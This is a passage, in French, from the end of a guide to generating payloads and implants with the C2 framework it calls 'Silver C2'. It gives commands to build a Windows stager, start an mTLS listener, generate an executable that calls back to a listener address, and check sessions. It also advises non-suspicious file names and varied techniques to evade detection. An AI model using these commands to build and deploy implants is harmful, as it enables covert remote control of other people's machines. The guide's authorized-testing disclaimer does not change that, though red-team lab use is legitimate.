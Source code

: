```bash
generate stager --lhost $LHOST --lport 443 --format exe --arch amd64 --save "$SAVE_DIR/stager_win64.exe"

echo "Génération terminée. Payloads dans: $SAVE_DIR"
ls -la "$SAVE_DIR"
```

---

## 10. Vérification et Tests

### 10.1 Vérification des payloads générés
```bash
# Lister tous les payloads générés
implants

# Vérifier les détails d'un payload
info [PAYLOAD_NAME]

# Tester la connectivité
jobs  # Vérifier que les listeners sont actifs
```

### 10.2 Test de base
```bash
# 1. Démarrer un listener
mtls --lport 443

# 2. Générer un payload de test
generate --mtls 192.168.1.100:443 --os windows --format exe --save /tmp/test.exe

# 3. Simuler l'exécution (dans un environnement contrôlé)
# Transférer le payload vers une VM de test et l'exécuter

# 4. Vérifier la connexion
sessions  # Doit montrer la nouvelle session
```

---

## ⚠️ Notes Importantes

### Sécurité et Légalité
- **Utilisez uniquement dans un environnement de test autorisé**
- **Ne déployez jamais sur des systèmes sans autorisation explicite**
- **Les payloads générés sont détectables par les antivirus modernes**
- **Respectez les lois locales et internationales**

### Bonnes Pratiques
- Testez toujours les payloads dans un environnement isolé
- Documentez tous les payloads générés
- Nettoyez les artefacts après utilisation
- Utilisez des noms de fichiers non suspects
- Variez les techniques pour éviter la détection

---

**Référence complète** : Ce guide couvre la génération de tous types de payloads Silver C2. Pour l'utilisation complète du framework, consultez le `Guide_Silver_C2_Kali_Linux.md`.
